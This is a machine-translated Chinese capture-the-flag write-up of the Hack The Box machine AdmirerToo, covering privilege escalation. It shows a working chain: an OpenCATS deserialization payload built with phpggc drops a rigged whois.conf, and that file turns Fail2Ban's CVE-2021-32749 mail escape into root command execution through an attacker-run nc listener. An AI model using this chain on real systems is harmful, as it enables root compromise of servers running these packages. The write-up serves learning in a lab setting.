

# phpggc

我们可以为我们自己的代码改变这一点，并在盒子上放一个文件。按照说明使用 [phpggc](https://github.com/ambionics/phpggc) :

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# phpggc             
Command 'phpggc' not found, but can be installed with:
apt install phpggc
Do you want to install it? (N/y)y
apt install phpggc
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  phpggc
0 upgraded, 1 newly installed, 0 to remove and 587 not upgraded.
Need to get 40.1 kB of archives.
After this operation, 423 kB of additional disk space will be used.
Get:1 https://archive-4.kali.org/kali kali-rolling/main amd64 phpggc all 0.20210218-0kali1 [40.1 kB]
Fetched 40.1 kB in 1s (40.6 kB/s) 
Selecting previously unselected package phpggc.
(Reading database ... 305301 files and directories currently installed.)
Preparing to unpack .../phpggc_0.20210218-0kali1_all.deb ...
Unpacking phpggc (0.20210218-0kali1) ...
Setting up phpggc (0.20210218-0kali1) ...
Processing triggers for kali-menu (2021.4.2) ...
```

如果需要，安装。现在创建我们的测试文件并使用 phpggc 给我们一个序列化的对象:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "this is a test" > pencer.txt

┌──(root💀kali)-[~/htb/admirertoo]
└─# phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/pencer.txt /root/htb/admirertoo/pencer.txt 
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Fpencer.txt%2<SNIP>%3B%7D
```

# 文件丢弃

现在粘贴到打嗝，并替换已经存在的:



将有效负载粘贴到打嗝

使用中继器发送请求，我们看到一个 200 OK 响应。切换到机器上的 SSH 会话，检查我们刚才放在那里的文件:

```
jennifer@admirertoo:~$ ls -l /dev/shm/
4 -rw-r--r--  1 devel devel   58 Mar  3 21:46 pencer.txtjennifer@admirertoo:~$ cat /dev/shm/pencer.txt 
[{"Expires":1,"Discard":false,"Value":"this is a test\n"}]
```

该文件属于另一个名为 devel 的用户。我们可以查找用户有权访问的位置:

```
jennifer@admirertoo:~$ find / -group devel 2>/dev/null
/dev/shm/test.txt
/opt/opencats/INSTALL_BLOCK
/usr/local/src
/usr/local/etc
```

# 失败 2 班

现在我们需要找到一种方法，利用 devel 用户的身份将我们选择的文件放在其中一个位置。下一部分花了我太长时间才弄明白！

环顾四周，我注意到安装了 fail2ban:

```
jennifer@admirertoo:~$ ls -l /etc/fail2ban/
drwxr-xr-x 2 root root  4096 Jul 19  2021 action.d
-rw-r--r-- 1 root root  2334 Jan 18  2018 fail2ban.conf
drwxr-xr-x 2 root root  4096 Sep 23  2018 fail2ban.d
drwxr-xr-x 3 root root  4096 Jul 19  2021 filter.d
-rw-r--r-- 1 root root 22897 Jan 18  2018 jail.conf
drwxr-xr-x 2 root root  4096 Jul 19  2021 jail.d
-rw-r--r-- 1 root root   167 Jul 19  2021 jail.local
-rw-r--r-- 1 root root   645 Jan 18  2018 paths-arch.conf
-rw-r--r-- 1 root root  2827 Jan 18  2018 paths-common.conf
-rw-r--r-- 1 root root   573 Jan 18  2018 paths-debian.conf
-rw-r--r-- 1 root root   738 Jan 18  2018 paths-opensuse.conf
```

检查我们可以看到它正在运行:

```
jennifer@admirertoo:~$ systemctl status fail2ban.service 
● fail2ban.service - Fail2Ban Service
   Loaded: loaded (/lib/systemd/system/fail2ban.service; enabled; vendor preset: enabled)
   Active: active (running) since Thu 2022-03-03 21:29:26 GMT;
     Docs: man:fail2ban(1)
  Process: 445 ExecStartPre=/bin/mkdir -p /var/run/fail2ban (code=exited, status=0/SUCCESS)
 Main PID: 459
    Tasks: 3 (limit: 4701)
   Memory: 22.6M
   CGroup: /system.slice/fail2ban.service
           └─459 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

查看配置，我们可以看到它在保护 ssh，并设置为在收到警报时发送电子邮件:

```
jennifer@admirertoo:~$ cat /etc/fail2ban/jail.d/defaults-debian.conf
[sshd]
enabled = truejennifer@admirertoo:~$ cat /etc/fail2ban/jail.local
[DEFAULT]
ignoreip = 127.0.0.1
bantime = 60s
destemail = root@admirertoo.htb
sender = fail2ban@admirertoo.htb
sendername = Fail2ban
mta = mail
action = %(action_mwl)s
```

检查安装的版本，我们发现它是旧的:

```
jennifer@admirertoo:~$ fail2ban-server --version
Fail2Ban v0.10.2
```

[2018 年发布 0.10.2 版本](https://github.com/fail2ban/fail2ban/releases#:~:text=a454884-,0.10.,burns%2Dlike%2Dthe%2Dcold)。一个搜索找到[CVE-2021–32749](https://nvd.nist.gov/vuln/detail/CVE-2021-32749)为它。一点阅读发现[这个](https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2021-32749)导致[这个](https://research.securitum.com/fail2ban-remote-code-execution/)研究和这个[咨询](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm)。

从所有阅读中得到的关键信息是这一点:

```
The ‘~|’ escape pipes the message composed so far through the given shell command and replaces the message with the output the command produced. If the command produced no output, mail assumes that something went wrong and retains the old contents of your message.
```

有了它，我们可以在以 root 用户身份运行的 Fail2Ban 服务的上下文中，在机器上执行我们选择的代码。我们从配置文件中知道，要触发它，我们只需几次登录 SSH 失败。棘手的部分是我们如何将我们的转义序列注入到生成的邮件中，答案来自这里的咨询:

```
This strictly puts whois command output of banned IP address into email. So if attacker could get control over whois output of his own IP address - code execution could be achieved (with root, which is more fun of course).
```

# Whois 配置漏洞

这使我们回到这样一个事实，即我们可以通过 OpenCATS 的 un-serialize 漏洞将一个文件作为用户 devel in /usr/local/etc 删除。Whois 使用配置文件列出公共 whois 服务器。这个版本的 whois 的文档说:

```
The configuration file should reside in the /usr/local/etc directory, or the directory that you specified using the --sysconfdir switch to the configure script.
```

因此，我们创建了一个 whois.conf 文件，该文件指向我们的 Kali IP，当它查找 Fail2Ban 将阻止的 IP 时，将使用该 IP。为了实现这一点，我们必须在我们的 conf 文件中使用一个 Regex 表达式，这是因为 phpggc 对输入进行编码的方式。

例如，如果我们这样做:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "[10.10.14.169]" > whois.conf
```

然后，在编码并放在盒子上之后，它将看起来像这样:

```
jennifer@admirertoo:~$ cat/usr/local/etc/whois.conf
[{"Expires":1,"Discard":false,"Value":"[10.10.14.169]\n"}]
```

这是无效的，当你试图使用盒子上的 whois 时会出现错误。相反，我们像这样使用正则表达式:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "}]|. [10.10.14.169]" > whois.conf
```

当它放在盒子上时，看起来像这样:

```
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.169]\n"}]
```

在正则表达式中，竖线是一个或，点是方括号内的匹配字符。这意味着尽管当 whois 解析 conf 文件时，它包含无效数据。导致它只使用括号内的字符。这是我们等待的 Kali IP 的有效 IP 地址。

让我们开始吧。首先创建我们的 whois.conf 文件:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "}]|. [10.10.14.169]" > whois.conf
```

使用 phpgcc 对其进行序列化，并将其放入机器上的/usr/local/etc 文件夹中:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /root/htb/admirertoo/whois.conf
a%3A2%3A%7Bi%3A7<SNIP>Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A20%3A%22%7D%5D%7C.+%5B10.10.14.169%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D
```

回到 Burp，像以前一样捕获活动数据网格请求，用我们的内容替换开始时的序列化内容:



用 Burp 捕获请求，并将序列化的有效负载放入其中

发送到邮箱，然后切换到我们的 SSH 会话，以 Jennifer 的身份连接。确保文件在那里:

```
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf 
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.169]\n"}]
```

在 Kali 上创建一个有效负载，我们希望将它注入到电子邮件中，并在机器上执行。我本来可以使用反向 shell，但是为了简单起见，我只是复制了根标志:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# cat flag_copy.txt
~| bash -c "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt" &
```

请注意，我要执行的代码以~|开头，它在 Fail2Ban 漏洞利用中被标识为注入方式。现在，在本地端口 43 上启动 nc 侦听，这是 whois 将与我们对话的内容:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# nc -nvlkp 43 -c "cat /root/htb/admirertoo/flag_copy.txt"
listening on [any] 43 ...
```

# 根标志

现在，登录 SSH 失败三次，导致 Fail2Ban 发送电子邮件，该电子邮件将使用 whois 查找我们的 IP，由于我们丢弃了 whois.conf 文件，该电子邮件将被重定向到我们等待的 nc 侦听器，这又将发送回包含我们 cp 的文本文件:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# ssh -L 1234:127.0.0.1:8080 jennifer@admirer-gallery.htb
jennifer@admirer-gallery.htbs password: 
Permission denied, please try again.
jennifer@admirer-gallery.htbs password: 
Permission denied, please try again.
jennifer@admirer-gallery.htbs password: 
jennifer@admirer-gallery.htb: Permission denied (publickey,password).
```

现在，作为 Jennifer，我们终于可以访问/tmp 文件夹中的根标志了:

```
jennifer@admirertoo:~$ cat /tmp/root.txt 
e3eeb41b4e22ad1ca6419cf2501b2ab2
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 6 月 12 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-admirertoo)*。*